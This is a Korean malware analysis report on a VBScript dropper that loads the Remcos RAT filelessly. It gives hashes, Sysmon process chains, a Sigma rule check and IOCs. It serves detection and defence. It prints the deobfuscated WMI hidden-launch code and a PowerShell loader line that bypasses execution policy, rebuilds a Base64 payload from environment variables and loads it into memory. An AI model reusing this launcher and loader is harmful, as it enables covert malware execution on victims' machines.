




# WMI 및 환경변수 분할 기법을 활용한 Remcos RAT 드로퍼

## 1. 개요 (Executive Summary)
* **분석 날짜:** 2026-08-23
* **분석가:** [poatanson / son]
* **악성코드 패밀리:** Remcos RAT (Dropper)
* **요약:** 본 샘플은 VBScript 기반의 드로퍼로, WMI(`Win32_Process`)를 활용해 창을 숨긴 채 PowerShell을 실행함. 페이로드는 37개의 환경 변수로 분할(Fragmentation)되어 명령줄 길이 제한 및 시그니처 탐지를 우회하며, 최종적으로 .NET Reflection을 이용해 Remcos RAT를 메모리(Fileless)에 로드하여 실행함.

## 2. 기본 정보 (File Details)
* **파일명:** `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011.vbs` (또는 실제 확장자)
* **파일 크기:** 40 MB (더미 코드와 유니코드 이모지로 파일을 부풀려 크기가 큼)
* **해시:**
  * MD5: `f5b1c1919f175fce913df143accf44a3`
  * SHA-1: `8b3f6d2217b736d5bbe69de37a3dd95ee058151b`
  * SHA-256: `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011`
* **파일 타입:** VBScript

## 3. 분석 환경
* **OS:** Windows 10 Pro 22H2 (VirtualBox)
* **주요 사용 도구:** vbsedit, sublime text, LLM (코드 난독화 해제 보조)

## 4. 실행 흐름도 (Execution Flow)



## 5. 주요 기술적 특징 (Technical Analysis)

### 5.1. 환경 변수 분할 및 WMI 은밀 실행
* 기존 `WScript.Shell.Run`의 창 깜빡임 및 명령줄 길이 제한을 우회하기 위해 WMI 사용.
* 페이로드를 `P1`부터 `P37`까지 37조각으로 나누어 환경 변수에 할당.
* **추출된 WMI 스크립트:**
```vbscript
Set exophthalmy = GetObject(healthily)

Set Acadia = exophthalmy.Get(healthilyt).SpawnInstance_ 
Acadia.ShowWindow = 0 

Set wistit = exophthalmy.Get(echinocardium)
lotus = wistit.Create(ballast, Null, Acadia, lithobiid) 
opsonies.Run ballast, 0, True 


' ==========================================================
' [1] WMI 객체 및 시작 옵션 초기화
' ==========================================================
' WMI 루트 객체 생성 (winmgmts:\\.\root\cimv2)
Set exophthalmy = GetObject(healthily) 

' Win32_ProcessStartup 클래스의 인스턴스 생성
Set Acadia = exophthalmy.Get(healthilyt).SpawnInstance_ 

' 창 숨김 설정 (0 = SW_HIDE)
Acadia.ShowWindow = 0 

' Win32_Process 클래스 객체 할당
Set wistit = exophthalmy.Get(echinocardium) 


' ==========================================================
' [2] 프로세스 실행 (중복 로직 포함)
' ==========================================================
' [실행 시도 ] WMI를 통한 은밀한 프로세스 생성
' 인자: (명령어, 현재디렉토리, 시작옵션객체, PID반환변수)
lotus = wistit.Create(ballast, Null, Acadia, lithobiid) 

' [실행 시도 ] WScript.Shell을 통한 폴백(Fallback) 실행
' 인자: (명령어, 창스타일(0=숨김), 대기여부(True))
opsonies.Run ballast, 0, True 


' ==========================================================
' [변수 매핑 요약]
' ==========================================================
' ballast   : powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "$s=$env:P1+...+$env:P37; $b=[Convert]::FromBase64String($s); [Reflection.Assembly]::Load($b)|Out-Null; [OtnmpxnddVnptbN.mpxnddVn]::Otnmpxn('...')"
' healthily : "winmgmts:\\.\root\cimv2"
' healthilyt: "Win32_ProcessStartup"
' echinocardium: "Win32_Process"

## 6. 동적 분석 결과 (Dynamic Analysis)

VBScript 드로퍼를 격리된 VM에서 실행하고, Sysmon 로그와 시스템 화면으로 실행 흐름을 확인함.
핵심 결론은 다음과 같음.

- VBS가 **두 경로**(`wscript.exe` 직접 실행, WMI 경유)로 동일한 숨김 PowerShell을 실행함
- 페이로드는 **사용자 환경 변수 `P1`~`P37`**에 Base64 조각으로 저장되어 있고, PowerShell이 이를 조립·디코딩해 **`Assembly.Load`로 메모리에 로드**함
- 관찰된 로그에서 페이로드 파일이 디스크에 생성된 흔적은 없음 (인메모리 로딩과 일치)

### 6.1 분석 환경

| 항목 | 내용 |
|---|---|
| 실행일 | 2026-09-19 (샘플 실행 시각: 08:02 UTC) |
| OS | Windows 10 Pro 22H2 (VirtualBox) |
| 네트워크 | 내부 네트워크 (인터넷 차단, `192.168.100.102`) |
| 로깅 | Sysmon (규칙 기반 FileCreate 설정), Windows 이벤트 뷰어 |
| 실행 계정 | `DESKTOP-4ET91UB\victim` (Medium 무결성) |
| 실행 대상 | `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011.vbs` |

### 6.2 프로세스 실행 흐름 (Sysmon Event ID 1)

```
c5103eaa...72011.vbs
 └─ wscript.exe (PID 5896)
     └─ powershell.exe (PID 5052, 08:02:23.523)    ← 직접 실행

WmiPrvSE.exe (PID 1188, NETWORK SERVICE)
 └─ powershell.exe (PID 1508, 08:02:23.348)         ← WMI 경유 실행
```

WMI 경유 프로세스가 약 175ms 먼저 생성됨. 부모가 `WmiPrvSE.exe`인 것은 로그로 확인되며,
VBS가 WMI(`Win32_Process`)로 실행을 요청했다는 점은 정적 분석 결과에 근거함.


*그림 1. `wscript.exe`가 직접 실행한 PowerShell (PID 5052)*


*그림 2. WMI 서비스(`WmiPrvSE.exe`)가 실행한 PowerShell (PID 1508)*

두 프로세스는 페이로드와 인자가 동일하지만 다음 항목으로 실행 경로를 구분할 수 있음.

| 항목 | 그림 1 (PID 5052) | 그림 2 (PID 1508) |
|---|---|---|
| 생성 시각 (UTC) | 08:02:23.523 | 08:02:23.348 |
| 부모 프로세스 | `wscript.exe` (원본 .vbs 경로 포함) | `WmiPrvSE.exe -secured -Embedding` |
| 부모 계정 | `victim` | `NT AUTHORITY\NETWORK SERVICE` |
| 작업 디렉터리 | 샘플 폴더 (`Downloads\c5103eaa...\`) | `C:\Windows\system32\` |
| 커맨드라인 시작 | `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"` | `powershell` |
| 실행 계정 / 무결성 | `victim` / Medium | `victim` / Medium |

두 프로세스의 LogonId가 동일(`0x34CEB`)하여 같은 로그온 세션에서 실행되었음.
같은 페이로드를 두 경로로 실행한 이유는 확인하지 못함.

### 6.3 커맨드라인 분석

두 프로세스의 커맨드라인은 다음 5단계로 구성됨.

| 단계 | 커맨드라인 조각 | 의미 |
|---|---|---|
| 1 | `-ExecutionPolicy Bypass -WindowStyle Hidden` | 실행 정책 우회, 창 숨김 |
| 2 | `$s=$env:P1+$env:P2+ ... +$env:P37` | 환경 변수 37개를 이어붙여 Base64 문자열 조립 |
| 3 | `$b=[Convert]::FromBase64String($s)` | Base64 디코딩 (바이트 배열) |
| 4 | `[Reflection.Assembly]::Load($b)\|Out-Null` | 디스크에 쓰지 않고 메모리에서 .NET 어셈블리 로드 |
| 5 | `[OtnmpxnddVnptbN.mpxnddVn]::Otnmpxn('...', ...)` | 로드된 어셈블리의 메서드를 다수의 Base64 문자열 인자와 함께 호출 (인자의 용도는 미확인) |

페이로드 조각(`P1`~`P37`)만 환경 변수에 숨겨져 있고, 이를 조립·디코딩·로드하는 **로더 코드는
커맨드라인에 평문으로 남아 있음**. 이 점이 5.5절의 탐지 룰이 성립하는 근거임.

### 6.4 환경 변수 페이로드


*그림 3. 사용자 환경 변수 화면 (샘플 실행 약 2분 뒤 캡처)*

- `victim`의 **사용자 환경 변수**로 `P1`, `P10`, `P11`, `P12`가 확인됨 (화면 스크롤 범위 내에서 보이는 항목)
- `P1` 값이 `TVqQAAMAAAAEAAAA`로 시작함. 이는 PE 파일 헤더(`MZ`)를 Base64로 인코딩한 값의 시작 패턴과 일치함
- 따라서 환경 변수에 저장된 조각들은 PE 형식 파일(로더가 `Assembly.Load`로 올리는 .NET 어셈블리)의 Base64로 판단됨
- 변수는 사용자 환경 변수로 남아 있으므로 감염 흔적으로 활용 가능함
- 화면에는 4개만 보이며, 37개라는 수는 커맨드라인의 `$env:P1+...+$env:P37` 참조에서 확인한 값임

### 6.5 탐지 룰 검증 (Sigma)

- **룰 파일**: `proc_creation_win_powershell_reflection_assembly_load_b64_hidden.yaml`
- **검증 방법**: Sysmon Event ID 1의 필드 값과 룰 조건을 수작업으로 대조 (도구 실행 결과 아님)
- **결과**: 그림 1, 그림 2의 두 프로세스 모두 4개 조건을 충족하여 **매치됨**

| 룰 조건 | 로그에서 확인한 값 |
|---|---|
| PowerShell 프로세스 | `Image: ...\powershell.exe`, `OriginalFileName: PowerShell.EXE` |
| Base64 디코딩 | `[Convert]::FromBase64String($s)` |
| 어셈블리 로드 | `[Reflection.Assembly]::Load($b)` |
| 옵션 | `-ExecutionPolicy Bypass`, `-WindowStyle Hidden` |

**음성 사례(정상 PowerShell은 매치되지 않음)**: 같은 VM에서 관찰된 다른 PowerShell 프로세스는
커맨드라인이 `powershell.exe` 단독이거나, `-ExecutionPolicy Restricted -Command Write-Host ...`
형태(Windows 호환성 텔레메트리 작업)라서 룰 조건을 충족하지 않음.

### 6.6 부가 관찰

**파일 생성 (Event ID 11)**
- 관찰된 `.ps1` 생성은 모두 `__PSScriptPolicyTest_*.ps1` 패턴이었으며, 이는 PowerShell이 시작할 때
  스크립트 정책 검사를 위해 만드는 임시 파일임. 악성코드와 무관한 분석용 PowerShell에서도 동일하게 생성됨
- Defender(`mpam-*.exe`), 작업 스케줄러(`SA.DAT`), WMI 서비스(`WRITABLE.TST`) 관련 이벤트는 OS 정상 동작으로 제외함
- 악성 체인이 만든 실행 파일이나 페이로드 파일은 관찰되지 않음. 단, Sysmon FileCreate는 규칙 기반이라
  기록되지 않은 파일이 있을 수 있으므로 인메모리 로딩과 일치하는 정황일 뿐 확정 증거는 아님

**DNS 조회 (Event ID 22)**
- 08:02:22.306에 PID 1508로 `pub-378362a70f714a30b26c109732cabca4[.]r2[.]dev` 조회가 기록됨
  (결과: 타임아웃, 인터넷 차단 환경과 일치)
- 조회 시각이 PowerShell(PID 1508) 생성 시각(08:02:23.348)보다 약 1초 빠르고 `Image`가
  `<unknown process>`로 기록되어, **조회 주체는 확정하지 못함**. IOC 후보로만 분류

### 6.7 관찰된 IOC

| 유형 | 값 | 신뢰도 |
|---|---|---|
| 파일 (SHA-256) | `c5103eaa70a4a80176440a0e0dc75136a0e7bcfd9a68d7c8440a4d0edea72011` | 확정 |
| 프로세스 체인 | `wscript.exe` → `powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden` | 확정 |
| 프로세스 체인 | `WmiPrvSE.exe` → `powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden` | 확정 |
| 환경 변수 | 사용자 환경 변수 `P1`~`P37` (Base64 조각, `P1`은 PE 헤더로 시작) | 확정 |
| 로드 대상 | `OtnmpxnddVnptbN.mpxnddVn::Otnmpxn` | 확정 (난독화 결과로 보이며 변종에서는 달라질 수 있음: 추측) |
| 도메인 | `pub-378362a70f714a30b26c109732cabca4[.]r2[.]dev` | 후보 (귀속 미확정) |

`powershell.exe` 자체의 해시는 정상 파일의 값이므로 IOC에서 제외함.

### 6.8 한계 및 미확인 사항

- **네트워크 행위 미검증**: 인터넷이 차단된 환경이라 C2 통신 여부는 확인하지 못함
- **최종 페이로드 미확인**: 동적 분석 로그만으로는 로드된 어셈블리가 Remcos RAT임을 확인하지 못함
  (Remcos 판단은 정적 분석 결과에 근거)
- **이중 실행 이유 미확인**: 두 경로로 동일 페이로드를 실행한 목적은 알 수 없음
- **탐지 룰의 범위**: 커맨드라인에 로더 코드가 평문으로 남는 경우만 탐지함. `-EncodedCommand`나
  스크립트 파일 실행으로 변형되면 놓칠 수 있으며, Script Block Logging(Event ID 4104) 기반 룰로 보완해야 함
- **로그 범위**: Sysmon 설정이 규칙 기반이라 모든 파일·레지스트리 이벤트가 기록되지는 않음
